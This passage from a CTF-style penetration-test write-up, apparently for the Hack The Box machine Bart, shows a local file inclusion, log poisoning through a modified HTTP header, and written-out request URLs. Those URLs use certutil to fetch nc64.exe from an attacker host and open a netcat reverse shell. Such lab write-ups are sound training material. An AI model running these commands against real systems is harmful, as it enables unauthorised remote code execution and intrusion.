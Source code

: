 Having no errors, it was tried to login as the user:password just created, being this successful:

![internal-01 succesfull login](../bart/screenshots/login-chat.png)

**Vulnerability Fix:** Hardening of the vulnerable php code and/or deletion of it.

**Severity:** \textcolor{orange}{Medium}.

**Proof of Concept Code Here:** Once logged in, the source code of the page was reviewed and a vulnerability on it which allowed to do a local file inclusion was detected:

![Vulnerable php code](../bart/screenshots/vuln-bart.png)

As a POC of this vulnerability, first it was tried to do a local file inclusion of a file called phpinfo.txt, first it returned a `1` as specified in the vulnerable code showed before, meaning the execution was correct and the file was created, later the file was included:

![output_one](../bart/screenshots/poc-1.png)

![succesfull loca lfile inclusion](../bart/screenshots/poc-2.png)

Then, by using the Developer Tools on Firefox, the Header of the HTTP Request was modified in order to be able to do a log poisoning:

![http header modified](../bart/screenshots/poc-3.png){ width=60% }

Finally, using it:

![succesfull log posioning](../bart/screenshots/poc-4.png)

On one terminal of the attacker machine was started an http server:

```texinfo
sudo python3 -m http.server 80
```

By using the web browser, it was utilized the log poisoning to download `nc64.exe`, this was accomplished by making a request to the next url:

```texinfo
http://internal-01.bart.htb/log/ceso.php?cmd=certutil.exe%20-urlcache%20-split%20-f%20%22http://10.10.14.4/nc64.exe%22%20nc64.exe
```

Later, the reverse shell was executed by making another request to:

```texinfo
internal-01.bart.htb/log/ceso.php?cmd=nc64.exe%20-e%20cmd.exe%2010.10.14.4%20443
```

![Reverse shell as user](../bart/screenshots/1reverse.png){ width=60% }

**user.txt Proof Screenshot**

```texinfo
User without rights to read user.txt, showed in Privilege escalation section
```
